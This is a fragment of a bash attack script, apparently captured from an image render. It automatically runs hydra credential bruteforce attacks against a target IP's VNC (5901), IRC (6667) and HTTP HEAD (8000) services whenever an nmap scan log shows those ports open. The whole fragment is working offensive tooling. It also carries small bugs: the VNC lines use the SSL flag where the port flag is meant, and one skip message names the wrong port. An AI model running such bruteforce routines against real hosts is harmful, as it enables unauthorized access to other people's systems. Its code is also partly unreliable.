   #  Port 5901 (VNC)
  BruteVNC5901(){
   if grep -q 5901/tcp nmap.log; then
    echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 5901(VNC) is open. Starting bruteforce...\n"
		sleep 1
		hydra -P $vnc_p ${targetIP} vnc -S 5901 -e ns -o Output/${targetIP}/vnc_5901_${targetIP}.txt -I -V -t $thread
		hydra -P $pass ${targetIP} vnc -S 5901 -e ns -o Output/${targetIP}/vnc_5901_${targetIP}.txt -I -V -t $thread
		Finished_Brute "${targetIP}"
   else
    echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 5901(VNC) is not open. Skipping to next port..."
   fi
}
  BruteVNC5901

  #  Port 6667 (IRC)
  BruteIRC(){
    if grep -q 6667/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 6667(IRC) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} irc -s 6667 -e ns -o Output/${targetIP}/irc_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 6667(IRC) is not open. Skipping to next port..."
    fi
  }
  BruteIRC

  #  Port 8000 (HTTP HEAD)
  BruteHTTP8000(){
    if grep -q 8000/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 8000(HTTP HEAD) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $user -P $pass ${targetIP} http-head -s 8000 -f -q -e ns -o Output/${targetIP}/http-head_8000_${targetIP}.txt -I -V -m / -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 514(HTTP HEAD) is not open. Skipping to next port..."
    fi
  }
  BruteHTTP8000

